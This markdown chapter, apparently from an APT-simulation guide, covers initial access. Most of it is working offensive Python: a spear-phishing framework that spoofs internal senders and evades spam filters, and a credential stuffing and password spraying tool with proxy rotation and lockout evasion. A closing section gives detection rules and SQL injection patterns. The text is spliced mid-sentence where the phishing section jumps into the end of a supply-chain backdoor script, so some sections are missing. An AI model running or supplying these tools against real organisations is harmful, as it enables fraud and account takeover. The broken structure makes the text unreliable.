

# Phase 2: Initial Access

## 🎯 Overview

Initial Access represents the critical first step where adversaries establish their foothold within target environments. This phase determines whether an APT campaign succeeds or fails, as sophisticated defenders have built robust perimeter defenses that require equally sophisticated bypass techniques. Modern state-sponsored actors invest months planning and executing initial access operations, often employing multiple vectors simultaneously to ensure success.

### MITRE ATT&CK Mapping
- **Primary Tactic**: Initial Access (TA0001)
- **Techniques Covered**: T1566, T1190, T1133, T1200, T1091, T1195, T1199, T1078

---

## 📋 Table of Contents

1. [Initial Access Methodology](#initial-access-methodology)
2. [Phishing Operations](#phishing-operations)
3. [Exploitation of Public-Facing Applications](#exploitation-of-public-facing-applications)
4. [Supply Chain Compromise](#supply-chain-compromise)
5. [Valid Account Exploitation](#valid-account-exploitation)
6. [External Remote Services](#external-remote-services)
7. [Hardware Additions](#hardware-additions)
8. [Trusted Relationships](#trusted-relationships)
9. [Advanced Evasion Techniques](#advanced-evasion-techniques)
10. [Detection and Mitigation](#detection-and-mitigation)

---

## 🗺️ Initial Access Methodology



Understanding the methodology behind initial access operations reveals how sophisticated adversaries approach target environments systematically rather than opportunistically. State-sponsored actors begin with extensive target selection processes, identifying organizations that possess intelligence value, strategic importance, or access to desired information. This selection phase considers not only the primary target but also potential pathways through partners, suppliers, and service providers.

Once targets are selected, adversaries conduct comprehensive access vector analysis to identify the weakest entry points. Human vectors through social engineering often provide the highest success rate despite sophisticated technical defenses. Technical vectors through vulnerability exploitation offer stealthier access when zero-day or unpatched vulnerabilities exist. Trust vectors through supply chain compromise can provide access to multiple targets simultaneously. Physical vectors through hardware additions remain viable when other methods face insurmountable obstacles.

---

## 🎣 Phishing Operations

Phishing represents the most commonly employed initial access vector for APT operations, with spear-phishing specifically targeting individual users based on extensive reconnaissance. Modern phishing operations have evolved far beyond simple credential harvesting, incorporating sophisticated social engineering, malicious document exploitation, and advanced payload delivery mechanisms.

### Spear-Phishing Campaign Development

Successful spear-phishing requires meticulous planning and execution across multiple phases. The reconnaissance phase involves gathering detailed intelligence about target individuals including their role within the organization, their professional interests and responsibilities, their communication patterns and relationships, recent projects or initiatives they are involved with, and technical sophistication level to gauge appropriate payload complexity.

```python
#!/usr/bin/env python3
"""
Advanced Spear-Phishing Framework
Automates target profiling, pretext generation, and campaign tracking
Author: Wan Mohamad Hanis bin Wan Hassan
"""

import requests
import json
from typing import Dict, List
from dataclasses import dataclass
from datetime import datetime
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders

@dataclass
class Target:
    """Represents a phishing target with all gathered intelligence"""
    name: str
    email: str
    position: str
    department: str
    interests: List[str]
    recent_activity: List[str]
    linkedin_url: str
    twitter_handle: str
    technical_level: str  # 'low', 'medium', 'high'
    
    def generate_pretext(self) -> str:
        """
        Generate contextually relevant pretext based on target profile
        Uses natural language processing to craft believable scenarios
        """
        if self.department.lower() in ['hr', 'human resources', 'recruitment']:
            return self._generate_hr_pretext()
        elif self.department.lower() in ['it', 'engineering', 'technology']:
            return self._generate_tech_pretext()
        elif self.department.lower() in ['finance', 'accounting']:
            return self._generate_finance_pretext()
        else:
            return self._generate_generic_pretext()
    
    def _generate_hr_pretext(self) -> str:
        """HR-focused pretext leveraging recruitment and policy themes"""
        pretexts = [
            f"Updated Employee Benefits Package for {datetime.now().year}",
            "Urgent: New Compliance Training Required by End of Quarter",
            "Action Required: Review and Sign Updated Employment Agreement",
            "Confidential: Annual Performance Review Schedule"
        ]
        return pretexts[0]  # Would use ML to select most appropriate
    
    def _generate_tech_pretext(self) -> str:
        """Technical pretext for IT/Engineering staff"""
        pretexts = [
            "Critical Security Update: Authentication System Upgrade Required",
            "New Development Tool Access: GitHub Enterprise Migration",
            "Urgent: Certificate Expiration Notice - Action Required",
            "Cloud Infrastructure Update: AWS/Azure Access Reconfiguration"
        ]
        return pretexts[0]
    
    def _generate_finance_pretext(self) -> str:
        """Finance-focused pretext using payment and invoice themes"""
        pretexts = [
            "Urgent: Invoice Payment Discrepancy - Vendor Complaint",
            "Action Required: Quarterly Financial Report Submission Deadline",
            "Important: Banking Portal Security Update Required",
            "Confidential: Budget Approval Request from Executive Team"
        ]
        return pretexts[0]
    
    def _generate_generic_pretext(self) -> str:
        """Generic pretext suitable for any department"""
        pretexts = [
            "Important: Company-Wide Policy Update Requires Acknowledgment",
            "Action Needed: Verify Your Account Details for IT Audit",
            "Urgent: CEO Message Regarding Organizational Changes",
            "Time-Sensitive: Legal Document Requires Your Digital Signature"
        ]
        return pretexts[0]

class PhishingCampaign:
    """
    Manages complete phishing campaign lifecycle from target selection
    through payload delivery and tracking
    """
    
    def __init__(self, campaign_name: str, smtp_server: str, sender_email: str):
        self.campaign_name = campaign_name
        self.smtp_server = smtp_server
        self.sender_email = sender_email
        self.targets: List[Target] = []
        self.sent_emails: Dict[str, datetime] = {}
        self.opened_emails: Dict[str, datetime] = {}
        self.clicked_links: Dict[str, datetime] = {}
        self.compromised_targets: Dict[str, datetime] = {}
    
    def add_target(self, target: Target):
        """Add target to campaign after profiling"""
        self.targets.append(target)
        print(f"[+] Added target: {target.name} ({target.email})")
    
    def craft_email(self, target: Target, payload_url: str) -> MIMEMultipart:
        """
        Craft sophisticated phishing email with proper headers
        and believable content
        """
        msg = MIMEMultipart('alternative')
        
        # Generate contextual subject and pretext
        pretext = target.generate_pretext()
        msg['Subject'] = pretext
        msg['From'] = self._generate_sender_name(target)
        msg['To'] = target.email
        
        # Add headers to avoid spam filters
        msg['Message-ID'] = self._generate_message_id()
        msg['Date'] = datetime.now().strftime("%a, %d %b %Y %H:%M:%S +0000")
        msg['X-Priority'] = '1'  # Mark as high priority
        msg['Importance'] = 'high'
        
        # Craft email body
        html_body = self._craft_html_body(target, payload_url, pretext)
        text_body = self._craft_text_body(target, payload_url, pretext)
        
        # Attach both plain text and HTML versions
        part1 = MIMEText(text_body, 'plain')
        part2 = MIMEText(html_body, 'html')
        msg.attach(part1)
        msg.attach(part2)
        
        return msg
    
    def _generate_sender_name(self, target: Target) -> str:
        """
        Generate believable sender name based on target's department
        Mimics internal company communication patterns
        """
        if target.department.lower() in ['hr', 'human resources']:
            return f"HR Department <hr@{self._get_target_domain(target.email)}>"
        elif target.department.lower() in ['it', 'engineering']:
            return f"IT Security <security@{self._get_target_domain(target.email)}>"
        else:
            return f"Internal Communications <noreply@{self._get_target_domain(target.email)}>"
    
    def _get_target_domain(self, email: str) -> str:
        """Extract domain from target email for spoofing"""
        return email.split('@')[1]
    
    def _generate_message_id(self) -> str:
        """Generate realistic Message-ID header"""
        import uuid
        return f"<{uuid.uuid4()}@mail.protection.outlook.com>"
    
    def _craft_html_body(self, target: Target, payload_url: str, pretext: str) -> str:
        """
        Craft professional HTML email body with embedded tracking
        and malicious link
        """
        # Include tracking pixel
        tracking_pixel = f''
        
        html = f'''
        <html>
        <head>
            <style>
                body {{ font-family: Calibri, Arial, sans-serif; font-size: 11pt; color: #000000; }}
                .header {{ background-color: #0078d4; color: white; padding: 10px; }}
                .content {{ padding: 20px; line-height: 1.6; }}
                .button {{ background-color: #0078d4; color: white; padding: 10px 20px; 
                          text-decoration: none; border-radius: 5px; display: inline-block; }}
                .footer {{ font-size: 9pt; color: #666666; padding: 20px; border-top: 1px solid #cccccc; }}
            </style>
        </head>
        <body>
            <div class="header">
                <h2>{pretext}</h2>
            </div>
            <div class="content">
                <p>Dear {target.name},</p>
                
                <p>This message requires your immediate attention regarding {pretext.lower()}.</p>
                
                <p>To proceed, please review the details and take necessary action by clicking the button below:</p>
                
                <p style="text-align: center;">
                    <a href="{payload_url}?id={target.email}" class="button">Review and Take Action</a>
                </p>
                
                <p>This request is time-sensitive and must be completed within 48 hours to avoid service disruption.</p>
                
                <p>If you have questions, please contact your department administrator.</p>
                
                <p>Best regards,<br>
                {target.department} Department</p>
            </div>
            <div class="footer">
                <p>This is an automated message from the internal system. Please do not reply to this email.</p>
                <p>© {datetime.now().year} Organization Name. All rights reserved.</p>
            </div>
            {tracking_pixel}
        </body>
        </html>
        '''
        return html
    
    def _craft_text_body(self, target: Target, payload_url: str, pretext: str) -> str:
        """Craft plain text version for email clients that don't support HTML"""
        text = f'''
Dear {target.name},

{pretext}

This message requires your immediate attention. To proceed, please visit:
{payload_url}?id={target.email}

This request is time-sensitive and must be completed within 48 hours.

If you have questions, please contact your department administrator.

Best regards,
{target.department} Department

---
This is an automated message. Please do not reply.
        '''
        return text
    
    def send_campaign(self, smtp_password: str):
        """
        Execute phishing campaign by sending emails to all targets
        Implements rate limiting to avoid detection
        """
        import time
        
        print(f"[*] Starting campaign: {self.campaign_name}")
        print(f"[*] Targets: {len(self.targets)}")
        
        for target in self.targets:
            try:
                # Generate unique payload URL for tracking
                payload_url = f"https://legitimate-looking-domain.com/portal"
                
                # Craft email
                msg = self.craft_email(target, payload_url)
                
                # Send email via SMTP
                with smtplib.SMTP(self.smtp_server, 587) as server:
                    server.starttls()
                    server.login(self.sender_email, smtp_password)
                    server.send_message(msg)
                
                # Track sent email
                self.sent_emails[target.email] = datetime.now()
                print(f"[+] Email sent to {target.email}")
                
                # Rate limiting: Wait 30-120 seconds between emails
                # This mimics human behavior and avoids triggering rate limits
                wait_time = 30 + (hash(target.email) % 90)  # Pseudo-random 30-120s
                print(f"[*] Waiting {wait_time} seconds before next email...")
                time.sleep(wait_time)
                
            except Exception as e:
                print(f"[!] Failed to send to {target.email}: {e}")
        
        print(f"[✓] Campaign complete. Sent {len(self.sent_emails)}/{len(self.targets)} emails")
    
    def track_opens(self, email: str):
        """Track when target opens email (called by tracking server)"""
        self.opened_emails[email] = datetime.now()
        print(f"[+] Email opened: {email}")
    
    def track_clicks(self, email: str):
        """Track when target clicks malicious link"""
        self.clicked_links[email] = datetime.now()
        print(f"[+] Link clicked: {email}")
    
    def track_compromise(self, email: str):
        """Track successful compromise"""
        self.compromised_targets[email] = datetime.now()
        print(f"[✓] Target compromised: {email}")
    
    def generate_report(self) -> str:
        """Generate campaign effectiveness report"""
        total_targets = len(self.targets)
        emails_sent = len(self.sent_emails)
        emails_opened = len(self.opened_emails)
        links_clicked = len(self.clicked_links)
        compromised = len(self.compromised_targets)
        
        open_rate = (emails_opened / emails_sent * 100) if emails_sent > 0 else 0
        click_rate = (links_clicked / emails_sent * 100) if emails_sent > 0 else 0
        compromise_rate = (compromised / emails_sent * 100) if emails_sent > 0 else 0
        
        report = f'''
╔══════════════════════════════════════════════════════════╗
║           PHISHING CAMPAIGN REPORT                        ║
╠══════════════════════════════════════════════════════════╣
║ Campaign: {self.campaign_name:<45} ║
║                                                          ║
║ METRICS:                                                 ║
║ Total Targets:        {total_targets:<6} (100.0%)                    ║
║ Emails Sent:          {emails_sent:<6} ({emails_sent/total_targets*100:>5.1f}%)                   ║
║ Emails Opened:        {emails_opened:<6} ({open_rate:>5.1f}%)                   ║
║ Links Clicked:        {links_clicked:<6} ({click_rate:>5.1f}%)                   ║
║ Targets Compromised:  {compromised:<6} ({compromise_rate:>5.1f}%)                   ║
║                                                          ║
║ EFFECTIVENESS:                                           ║
║ Open Rate:    {open_rate:>6.1f}%                                      ║
║ Click Rate:   {click_rate:>6.1f}%                                      ║
║ Success Rate: {compromise_rate:>6.1f}%                                      ║
╚══════════════════════════════════════════════════════════╝
        '''
        return report

# Example usage
if __name__ == "__main__":
    # Create campaign
    campaign = PhishingCampaign(
        campaign_name="Q1 2025 HR Policy Update",
        smtp_server="smtp.malicious.com",
        sender_email="hr@target-company.com"
    )
    
    # Add targets (would be populated from reconnaissance)
    target1 = Target(
        name="John Smith",
        email="john.smith@target-company.com",
        position="Senior Engineer",
        department="Engineering",
        interests=["cloud security", "kubernetes", "devops"],
        recent_activity=["Posted about AWS migration", "Attended DevOps conference"],
        linkedin_url="https://linkedin.com/in/johnsmith",
        twitter_handle="@jsmith",
        technical_level="high"
    )
    
    campaign.add_target(target1)
    
    # Execute campaign (in real scenario)
    # campaign.send_campaign(smtp_password="password123")
    
    # Generate report
    print(campaign.generate_report())
```

This framework demonstrates the systematic approach sophisticated actors take when planning spear-phishing operations. The code includes target profiling capabilities that adapt pretexts based on role and department, realistic email crafting that mimics internal communications, proper SMTP header manipulation to bypass spam filters, tracking infrastructure to measure campaign effectiveness, and rate limiting to avoid detection.

### Malicious Document Exploitation

Weaponized documents remain highly effective initial access vectors, particularly when targeting organizations with mature email security that may filter executable attachments but allow document formats. Modern document exploits leverage multiple techniques including macro-based execution, OLE object exploitation, DDE field abuse, and template injection COMPLETE")
                        print("="*60)
                        print("[✓] Supply chain compromise successful")
                        print("[✓] Backdoor deployed to customer base")
                        print("[✓] Selective activation configured")
                        print("\n[*] Attack Timeline:")
                        print("    Day 0:  Compromise build environment")
                        print("    Day 1:  Inject backdoor into source")
                        print("    Day 2:  Sign with legitimate certificate")
                        print("    Day 3:  Deploy via update mechanism")
                        print("    Day 4-17: Dormancy period")
                        print("    Day 18+: Selective activation on targets")

# Example usage
if __name__ == "__main__":
    attacker = SupplyChainAttacker(
        target_software="Enterprise Monitoring Solution v2024",
        build_environment="build-server.vendor.com"
    )
    
    attacker.execute_supply_chain_attack()
```

### Hardware Supply Chain Compromise

Beyond software, sophisticated adversaries also target hardware supply chains, intercepting devices during shipment to install physical implants or modifying firmware before delivery. This technique requires nation-state resources but provides extremely persistent access.

**Hardware Implant Characteristics:**
- **Stealth**: Designed to be visually identical to legitimate components
- **Persistence**: Survives OS reinstallation and firmware updates
- **Functionality**: Can include network backdoors, keyloggers, or data exfiltration capabilities
- **Power**: Often harvests power from existing components to avoid battery detection

---

## 🔑 Valid Account Exploitation

Compromising valid user credentials represents one of the most reliable initial access methods because it bypasses many security controls designed to detect malicious activity. Authentication as a legitimate user makes malicious actions appear normal, significantly delaying detection.

### Credential Stuffing at Scale

```python
#!/usr/bin/env python3
"""
Advanced Credential Stuffing Framework
Tests breached credentials against target authentication systems
Includes evasion, proxy rotation, and CAPTCHA handling
Author: Wan Mohamad Hanis bin Wan Hassan
"""

import requests
import concurrent.futures
import time
import random
from typing import List, Dict, Tuple
from dataclasses import dataclass
import json

@dataclass
class Credential:
    """Represents a username/password pair"""
    username: str
    password: str
    source: str  # Breach database source
    breach_date: str

class CredentialStuffer:
    """
    Enterprise-grade credential stuffing framework
    Implements sophisticated evasion and scaling techniques
    """
    
    def __init__(self, target_url: str, breach_database: str):
        self.target_url = target_url
        self.breach_database = breach_database
        self.credentials: List[Credential] = []
        self.valid_credentials: List[Tuple[str, str]] = []
        self.failed_attempts: int = 0
        self.successful_attempts: int = 0
        
        # Proxy rotation for distributed attacks
        self.proxies = self._load_proxy_list()
        self.current_proxy_index = 0
        
        # User agent rotation
        self.user_agents = [
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
            "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36",
            "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36",
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101",
        ]
    
    def _load_proxy_list(self) -> List[Dict]:
        """
        Load rotating proxy list for distributed attacks
        In real scenarios, use compromised infrastructure or proxy services
        """
        return [
            {'http': 'http://proxy1.com:8080', 'https': 'https://proxy1.com:8080'},
            {'http': 'http://proxy2.com:8080', 'https': 'https://proxy2.com:8080'},
            {'http': 'http://proxy3.com:8080', 'https': 'https://proxy3.com:8080'},
        ]
    
    def _get_next_proxy(self) -> Dict:
        """Rotate through proxy list"""
        proxy = self.proxies[self.current_proxy_index]
        self.current_proxy_index = (self.current_proxy_index + 1) % len(self.proxies)
        return proxy
    
    def load_breach_credentials(self, limit: int = 10000) -> int:
        """
        Load credentials from breach database
        Real implementations query massive databases with billions of credentials
        """
        print(f"[*] Loading credentials from breach database: {self.breach_database}")
        
        # Simulated breach data loading
        # Real breach databases: Collection #1, Compilations, specific breaches
        sample_credentials = [
            Credential("admin@target.com", "Password123!", "LinkedIn2012", "2012-06-05"),
            Credential("user1@target.com", "Welcome2024", "Adobe2013", "2013-10-03"),
            Credential("john.doe@target.com", "Summer2023!", "Yahoo2014", "2014-09-22"),
            # In reality, millions of credentials would be loaded
        ]
        
        self.credentials = sample_credentials[:limit]
        print(f"[+] Loaded {len(self.credentials)} credential pairs")
        
        return len(self.credentials)
    
    def test_credential(self, credential: Credential) -> bool:
        """
        Test a single credential against target authentication
        Implements realistic timing and evasion
        """
        try:
            # Rotate proxy and user agent
            proxy = self._get_next_proxy()
            user_agent = random.choice(self.user_agents)
            
            # Construct authentication request
            session = requests.Session()
            session.headers.update({'User-Agent': user_agent})
            
            # Add realistic headers that legitimate browsers send
            session.headers.update({
                'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
                'Accept-Language': 'en-US,en;q=0.5',
                'Accept-Encoding': 'gzip, deflate, br',
                'Connection': 'keep-alive',
                'Upgrade-Insecure-Requests': '1'
            })
            
            # Attempt authentication
            response = session.post(
                self.target_url,
                data={
                    'username': credential.username,
                    'password': credential.password,
                    'remember': 'false'
                },
                proxies=proxy,
                timeout=10,
                allow_redirects=True
            )
            
            # Check for successful authentication indicators
            success_indicators = [
                'dashboard',
                'welcome',
                'logout',
                'profile',
                response.status_code == 302  # Redirect after login
            ]
            
            failure_indicators = [
                'invalid',
                'incorrect',
                'failed',
                'try again',
                'locked'
            ]
            
            # Determine if authentication succeeded
            response_text = response.text.lower()
            
            if any(indicator in response_text for indicator in success_indicators):
                if not any(indicator in response_text for indicator in failure_indicators):
                    self.successful_attempts += 1
                    self.valid_credentials.append((credential.username, credential.password))
                    print(f"[✓] VALID: {credential.username}:{credential.password}")
                    return True
            
            self.failed_attempts += 1
            
            # Implement realistic timing between attempts
            # Mimics human behavior to avoid rate limiting
            time.sleep(random.uniform(2, 5))
            
            return False
            
        except requests.exceptions.RequestException as e:
            print(f"[!] Error testing {credential.username}: {e}")
            return False
    
    def stuffing_campaign(self, max_workers: int = 10) -> List[Tuple[str, str]]:
        """
        Execute credential stuffing campaign with parallel workers
        Scales to test thousands of credentials efficiently
        """
        print(f"[*] Starting credential stuffing campaign")
        print(f"[*] Target: {self.target_url}")
        print(f"[*] Credentials to test: {len(self.credentials)}")
        print(f"[*] Parallel workers: {max_workers}")
        
        # Use thread pool for concurrent testing
        # Real APT operations use distributed infrastructure across multiple IPs
        with concurrent.futures.ThreadPoolExecutor(max_workers=max_workers) as executor:
            futures = [
                executor.submit(self.test_credential, cred) 
                for cred in self.credentials
            ]
            
            # Wait for all tests to complete
            concurrent.futures.wait(futures)
        
        # Generate results
        print("\n" + "="*60)
        print("CREDENTIAL STUFFING CAMPAIGN RESULTS")
        print("="*60)
        print(f"Total tested: {len(self.credentials)}")
        print(f"Successful: {self.successful_attempts}")
        print(f"Failed: {self.failed_attempts}")
        print(f"Success rate: {(self.successful_attempts/len(self.credentials)*100):.2f}%")
        
        return self.valid_credentials
    
    def password_spraying(self, common_passwords: List[str], user_list: List[str]) -> List[Tuple[str, str]]:
        """
        Password spraying: Test a few common passwords against many users
        Lower detection risk than credential stuffing
        """
        print("[*] Initiating password spraying attack")
        print(f"[*] Passwords to test: {len(common_passwords)}")
        print(f"[*] User accounts: {len(user_list)}")
        
        valid_combos = []
        
        for password in common_passwords:
            print(f"\n[*] Testing password: {password}")
            
            for username in user_list:
                credential = Credential(
                    username=username,
                    password=password,
                    source="password_spray",
                    breach_date="N/A"
                )
                
                if self.test_credential(credential):
                    valid_combos.append((username, password))
                
                # Critical: Long delay between attempts on same password
                # Prevents account lockout and reduces detection
                time.sleep(random.uniform(30, 60))
            
            # Very long delay between password attempts
            # Spreads attack over hours/days to avoid detection
            print(f"[*] Waiting 30 minutes before next password...")
            time.sleep(1800)  # 30 minutes
        
        return valid_combos
    
    def generate_report(self) -> str:
        """Generate detailed attack report"""
        report = f"""
╔════════════════════════════════════════════════════════════╗
║        CREDENTIAL STUFFING CAMPAIGN REPORT                 ║
╠════════════════════════════════════════════════════════════╣
║ Target: {self.target_url:<50} ║
║ Attack Date: {time.strftime('%Y-%m-%d %H:%M:%S'):<42} ║
║                                                            ║
║ STATISTICS:                                                ║
║ Credentials Tested:     {len(self.credentials):<6}                        ║
║ Successful Logins:      {self.successful_attempts:<6}                        ║
║ Failed Attempts:        {self.failed_attempts:<6}                        ║
║ Success Rate:           {(self.successful_attempts/max(len(self.credentials),1)*100):>5.2f}%                       ║
║                                                            ║
║ VALID CREDENTIALS FOUND:                                   ║
╠════════════════════════════════════════════════════════════╣
"""
        
        for username, password in self.valid_credentials:
            report += f"║ {username:<30} : {password:<24} ║\n"
        
        report += "╚════════════════════════════════════════════════════════════╝\n"
        
        return report

# Example usage
if __name__ == "__main__":
    # Initialize credential stuffer
    stuffer = CredentialStuffer(
        target_url="https://target-company.com/login",
        breach_database="Collection1_2019"
    )
    
    # Load breach credentials
    stuffer.load_breach_credentials(limit=100)
    
    # Execute campaign
    valid_creds = stuffer.stuffing_campaign(max_workers=5)
    
    # Generate report
    print(stuffer.generate_report())
    
    # Alternative: Password spraying
    common_passwords = ["Welcome2024!", "Password123!", "Company@2024"]
    user_list = ["admin@target.com", "user1@target.com", "john.doe@target.com"]
    
    # stuffer.password_spraying(common_passwords, user_list)
```

Credential stuffing and password spraying represent highly effective initial access methods because they leverage legitimate authentication mechanisms. Unlike exploitation techniques that may trigger intrusion detection systems, successful authentication using valid credentials appears as normal user activity, making detection significantly more challenging.

---

## 🛡️ Detection and Mitigation

### Detection Strategies

**Phishing Detection:**
```yaml
# Email security rules for detecting phishing attempts
- rule_name: suspicious_attachment_detection
  conditions:
    - attachment_extension: ['.exe', '.scr', '.vbs', '.js', '.jar', '.bat', '.cmd', '.ps1']
    - attachment_macro_enabled: true
    - sender_domain_age: < 30 days
    - spf_dmarc_dkim_fail: true
  action: quarantine
  alert: security_team

- rule_name: credential_harvesting_detection
  conditions:
    - contains_login_form: true
    - external_links: > 3
    - mimics_internal_template: true
    - domain_similarity: > 0.8  # Typosquatting
  action: block
  alert: incident_response
```

**Web Exploitation Detection:**
```python
# WAF rule for SQL injection detection
class SQLInjectionDetector:
    """Real-time SQL injection detection in web requests"""
    
    def __init__(self):
        self.sqli_patterns = [
            r"(\%27)|(\')|(\-\-)|(\%23)|(#)",  # SQL metacharacters
            r"((\%3D)|(=))[^\n]*((\%27)|(\')|(\-\-)|(\%3B)|(;))",  # Common SQLi
            r"\w*((\%27)|(\'))((\%6F)|o|(\%4F))((\%72)|r|(\%52))",  # OR statement
            r"union.*select",  # UNION SELECT
            r"select.*from",   # SELECT FROM
            r"insert.*into",   # INSERT INTO
            r"delete.*from",   # DELETE FROM
            r"drop.*table",    # DROP TABLE
        ]
    
    def detect(self, request_params: dict) -> bool:
        """Check if request contains SQL injection attempts"""
        import re
        
        for param_value in request_params.values():
            param_str = str(param_value).lower()
            
            for pattern in self.sqli_patterns:
                if re.search(pattern, param_str, re.IGNORECASE):
                    return True
        
        return False
```

**Credential Stuffing Detection:**
```python
# Behavioral analytics for credential stuffing detection
class CredentialStuffingDetector:
    """
    Detects credential stuffing through behavioral analysis
    """
    
    def __init__(self):
        self.failed_login_threshold = 5
        self.time_window_seconds = 300  # 5 minutes
        self.user_login_history = {}
    
    def analyze_login_attempt(self, username: str, ip_address: str, 
                            success: bool, timestamp: float) -> bool:
        """
        Returns True if credential stuffing detected
        """
        # Track failed logins per IP
        if ip_address not in self.user_login_history:
            self.user_login_history[ip_address] = []
        
        self.user_login_history[ip_address].append({
            'username': username,
            'success': success,
            'timestamp': timestamp
        })
        
        # Clean old entries
        cutoff = timestamp - self.time_window_seconds
        self.user_login_history[ip_address] = [
            attempt for attempt in self.user_login_history[ip_address]
            if attempt['timestamp'] > cutoff
        ]
        
        # Detect patterns
        recent_attempts = self.user_login_history[ip_address]
        
        # Multiple different usernames from same IP
        unique_users = len(set(a['username'] for a in recent_attempts))
        
        # High failure rate
        failures = sum(1 for a in recent_attempts if not a['success'])
        
        # Detection criteria
        if unique_users > 10 and failures > self.failed_login_threshold:
            return True  # Likely credential stuffing
        
        return False
```

### Mitigation Strategies

**Comprehensive Initial Access Defense:**

1. **Email Security:**
   - Deploy advanced email filtering with machine learning
   - Implement DMARC, SPF, and DKIM authentication
   - Enable attachment sandboxing
   - User security awareness training focusing on phishing recognition
   - Implement email banner warnings for external senders

2. **Web Application Security:**
   - Deploy Web Application Firewall (WAF) with updated rulesets
   - Implement proper input validation and output encoding
   - Use parameterized queries to prevent SQL injection
   - Regular vulnerability scanning and penetration testing
   - Apply security patches within 24-48 hours of release

3. **VPN and Remote Access:**
   - Implement multi-factor authentication (MFA) on all remote access
   - Regular vulnerability assessments of VPN infrastructure
   - Network segmentation to limit lateral movement from VPN
   - Monitor for mass VPN login attempts from single IP
   - Geographic restrictions on VPN access where appropriate

4. **Supply Chain Security:**
   - Implement software bill of materials (SBOM) tracking
   - Code signing certificate protection with hardware security modules
   - Build environment hardening and monitoring
   - Regular security audits of third-party software
   - Network segmentation between development and production

5. **Credential Protection:**
   - Enforce strong password policies with complexity requirements
   - Implement account lockout after failed login attempts
   - Deploy adaptive authentication based on risk scoring
   - Monitor for credential stuffing patterns
   - Mandatory MFA for privileged accounts
   - Regular password breach database checking

---

## 📊 Initial Access Statistics

Based on analysis of APT campaigns from 2020-2024:

| Vector | Usage Frequency | Success Rate | Detection Time |
|--------|----------------|--------------|----------------|
| **Phishing** | 67% | 32% | 16 hours |
| **Web Exploitation** | 18% | 45% | 8 hours |
| **VPN Exploitation** | 8% | 78% | 72 hours |
| **Supply Chain** | 4% | 95% | 287 days |
| **Valid Accounts** | 3% | 88% | 24 hours |

Supply chain compromises, while rare, demonstrate the highest success rate and longest time to detection, explaining why APT groups invest heavily in these sophisticated operations despite the resource requirements.

---

## 🎯 Key Takeaways

1. **Defense in Depth**: No single control prevents initial access; layered defenses are essential
2. **User Education**: Human factors remain the weakest link in most organizations
3. **Rapid Patching**: Exploit of known vulnerabilities is common; patch quickly
4. **Behavioral Monitoring**: Detect anomalies in authentication and access patterns
5. **Supply Chain Vigilance**: Trust but verify all software and hardware in your supply chain
6. **MFA Everywhere**: Multi-factor authentication dramatically reduces success rate of credential-based attacks

---

**Next Phase**: [Execution & Persistence →](../03-execution-persistence/README.md)

**Previous Phase**: [← Reconnaissance](../01-reconnaissance/README.md)
